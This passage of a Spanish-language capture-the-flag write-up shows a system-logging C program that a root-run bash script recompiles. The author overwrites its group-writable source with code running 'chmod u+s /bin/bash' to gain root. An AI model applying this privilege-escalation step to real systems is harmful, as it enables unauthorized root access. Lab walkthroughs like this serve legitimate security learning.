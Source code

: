 ```
        exit(EXIT_FAILURE);
    }

    // Tiempo de inicio del sistema
    struct timespec uptime;
    if (clock_gettime(CLOCK_BOOTTIME, &uptime) < 0) {
        perror("Error al obtener el tiempo de inicio del sistema");
        exit(EXIT_FAILURE);
    }
    time_t boot_time = time(NULL) - uptime.tv_sec;

    // Escribir la información en el archivo de log
    fprintf(log_file, "-----------------------------\n");
    fprintf(log_file, "Fecha y Hora: %s", ctime(&boot_time));
    fprintf(log_file, "Nombre del Sistema: %s\n", sys_info.sysname);
    fprintf(log_file, "Nombre del Host: %s\n", sys_info.nodename);
    fprintf(log_file, "Versión del Sistema: %s\n", sys_info.release);
    fprintf(log_file, "Versión del Kernel: %s\n", sys_info.version);
    fprintf(log_file, "Arquitectura de Hardware: %s\n", sys_info.machine);
    fprintf(log_file, "-----------------------------\n");

    fclose(log_file);
}

int main() {
    const char *log_filename = "/tmp/registros.log";

    log_system_info(log_filename);

    return 0;
}
```
este resulta ser el programa que se ejecuta dentro del script en bash, programa el cual podemos modificar, ya que el grupo `editor` tiene permisos de escritura
y el user `cristal` pertenece a dicho grupo

![image](https://github.com/user-attachments/assets/ff547e45-7f80-4b2f-baee-816a149125c9)

asi que lo que hare sera reescribir completamente el codigo para que le asigne el bit SUID al binario /bin/bash. El codigo que usare para tal fin es el siguiente:

systm.c
```
#include <stdlib.h>

int main() {
    // Comando a ejecutar
    const char *command = "chmod u+s /bin/bash";

    // Ejecutar el comando usando system()
    (void)system(command); // Ignorar el resultado

    return 0;
}
```
guardo los cambios y espero unos segundos mientra el script `systm.sh` vuelve a compilar y ejecutar el binario
